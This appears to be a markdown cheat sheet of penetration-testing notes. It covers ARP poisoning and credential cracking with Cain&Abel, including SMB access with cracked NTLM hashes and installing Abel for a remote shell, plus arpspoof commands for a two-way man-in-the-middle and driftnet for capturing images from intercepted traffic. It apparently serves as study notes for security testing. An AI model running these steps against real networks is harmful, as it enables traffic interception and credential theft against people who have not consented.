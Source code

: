 ### Cain&Abel
1. Set the ethernet card
   * `Configure > select card > OK`
2. Sniff network
   * `Sniffer` tab
   * Press `Start/Stop Sniffer` button
   * Press `Host` a right click to `Scan MAC address`
3. ARP poison
   * Press `APR` and `+` sign
   * Press Detonate (`Start/Stop APR`) button
4. Passwords
   * Press `Password`
   * Right click a password and `Crack`
5. SMB connect
   * Press `Network` tab
   * Add IP in `Quick List`
   * Connect with cracked NTLM hashes
6. Install Abel (still on `Network`)
   * Press `Services` tab, right click and `install Abel`
   * Double click IP to refresh the view and go to `Abel` and `Shell`

### arp-spoof
1. Enable IP forwarding (lets the attacking host to send packets to both spoofed machines = traffic goes through the attacking host)
   * `sudo echo 1 > /proc/sys/net/ipv4/ip_forward`
2. Arp spoof - 1st direction
   * `arpspoof -i eth1 -t <target1> -r <host/target2>`</br>
   	  where `-r` -> poisong both hosts
3. Arp spoof - 2nd direction
   * `arpspoof -i eth1 -t <host/target2> -r <target1>`
## driftnet - capture images from network traffic and display them in an X window; optionally, capture audio streams and play them.
1. While arp-spoof is working
    * `driftnet -i <interface>`
